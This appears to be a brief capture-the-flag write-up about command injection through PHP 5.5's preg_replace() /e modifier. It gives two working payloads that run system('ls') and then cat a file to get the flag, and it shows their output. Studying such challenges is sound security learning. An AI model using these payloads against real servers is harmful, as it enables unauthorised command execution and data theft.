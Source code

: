 Vulnerability
-------------

Use of preg_replace() function in PHP 5.5 that leads to command injection

Exploit
-------

The server executes the `preg_replace()` function with unsanitized parameters from the user.

If you use the `/e` modifier at the end of the regex, the next of the command will be treated as PHP code. In this way you can execute shell commands.

**Payload 1**

Needle: `m/e`

Replacement: `system('ls')`

Haystack: `m`


Output: `index.php wRtu3ND38n8RNgez`

**Payload 2**

Needle: `m/e`

Replacement: `system('cat wRtu3ND38n8RNgez')`

Haystack: `m`


Output: the flag

Exploit in `../sol/solution.sh`.
